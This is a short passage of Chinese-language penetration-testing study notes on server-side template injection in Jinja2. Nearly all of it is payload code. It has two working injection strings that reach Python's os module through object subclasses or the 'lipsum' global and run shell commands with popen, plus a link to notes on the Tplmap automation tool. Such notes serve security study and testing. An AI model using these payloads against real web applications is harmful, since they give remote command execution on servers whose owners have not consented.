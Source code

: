 在已经加载的 os 模块子类中调用 （配合 py 脚本）
```
{{[].__class__.__bases__[0].__subclasses__()[NUM].__init__.__globals__['os'].popen('id').read()}}
```

`lipsum`
```
{{lipsum.__globals__.os.popen('id').read()}}
```


#### 自动化工具：

Tplmap : **[Tplmap](../0x02%20Checklist(kalilinux%20Pen%20Testing)/Study%20Note%20New/Tplmap.md)**